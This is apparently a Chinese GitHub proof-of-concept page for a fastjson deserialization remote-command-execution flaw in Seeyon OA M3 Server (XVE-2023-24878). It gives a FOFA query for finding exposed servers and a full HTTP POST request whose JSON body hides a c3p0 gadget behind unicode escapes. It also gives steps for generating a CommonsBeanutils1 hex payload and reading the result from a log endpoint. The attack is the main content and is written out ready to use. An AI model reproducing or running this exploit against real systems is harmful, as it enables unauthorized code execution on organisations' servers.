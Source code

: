 # 致远OA M3 Server 反序列化漏洞


## 致远OA M3 Server 反序列化漏洞
致远 M3 反序列化 远程命令执行漏洞（XVE-2023-24878）

漏洞信息：
https://x.threatbook.com/v5/vul/6bf25402a41b4fc27497a5b42a8421d7ef38d57cb7d8143dedb9a6f438310a2d9e083c39c56fee2571651827b4d9ce8d



## fofa
```
"M3-Server 已启动"
```

根据群友说，这个漏洞是fastjson反序列化

利用 CB1 生成 hex 反序列化数据，替换 POC 中的 HEX

## poc
```
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```
然后再 Get 访问/mobile_portal/api/systemLog/pns/loadLog/app.log

![ef21d114d1965815537db98570d2daf7](https://github.com/wy876/POC/assets/139549762/b3609c72-0516-4c69-a64f-62c86fffb30d)

## 漏洞分析
```
https://mp.weixin.qq.com/s/czbhaf7jpNmgjAt-OFWmIA
```

